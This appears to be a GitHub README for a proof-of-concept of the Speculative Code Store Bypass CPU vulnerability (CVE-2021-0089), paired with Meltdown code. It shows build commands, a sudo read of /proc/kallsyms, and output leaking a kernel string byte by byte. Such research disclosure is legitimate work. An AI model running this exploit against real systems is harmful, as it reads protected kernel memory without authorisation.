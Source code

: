 # Speculative Code Store Bypass POC
Proof-of-Concept of the Speculative Code Store Bypass Vulnerability 

# Description
Speculative Code Store Bypass (SCSB) is a new transient execution attack which exploits the self-modifying code (SMC) mechanism in Intel processor. 
Intel published this vulnerability on 2021-06-08 and assigned it CVE-2021-0089. Look at their explainations for details:
https://software.intel.com/content/www/us/en/develop/articles/software-security-guidance/advisory-guidance/speculative-code-store-bypass.html.

We discoverd this vulnerability a long time ago and always used it as a novel way to suppress the fault in Meltdown-type attack. This POC is a demonstration. It is a little pity that we fail to disclose it in the first place. :( 
 
The Meltdown code borrowed in this POC is at:
https://github.com/paboldin/meltdown-exploit.

# Result
```
$ make
gcc -O3 -o scsb scsb.c

$ ./run.sh 
looking for linux_proc_banner in /proc/kallsyms
protected. requires root
+ find_linux_proc_banner /proc/kallsyms sudo
+ sudo sed -n -re s/^([0-9a-f]*[1-9a-f][0-9a-f]*) .* linux_proc_banner$/\1/p /proc/kallsyms
+ linux_proc_banner=ffffffff81800060
+ set +x
cached = 158, uncached = 404, threshold 208
read 25 % (score=913/1000)
read 73 s (score=904/1000)
read 20   (score=869/1000)
read 76 v (score=850/1000)
read 65 e (score=839/1000)
read 72 r (score=933/1000)
read 73 s (score=864/1000)
read 69 i (score=897/1000)
read 6f o (score=867/1000)
read 6e n (score=861/1000)
read 20   (score=789/1000)
read 25 % (score=809/1000)
read 73 s (score=883/1000)
read 20   (score=703/1000)
read 28 ( (score=856/1000)
read 62 b (score=774/1000)
read 75 u (score=770/1000)
read 69 i (score=682/1000)
read 6c l (score=856/1000)
read 64 d (score=698/1000)
read 64 d (score=776/1000)
read 40 @ (score=850/1000)
read 6c l (score=683/1000)
read 67 g (score=846/1000)
read 77 w (score=755/1000)
read 30 0 (score=725/1000)
read 31 1 (score=830/1000)
read 2d - (score=827/1000)
read 34 4 (score=766/1000)
read 33 3 (score=791/1000)
read 29 ) (score=736/1000)
read 20   (score=699/1000)
```
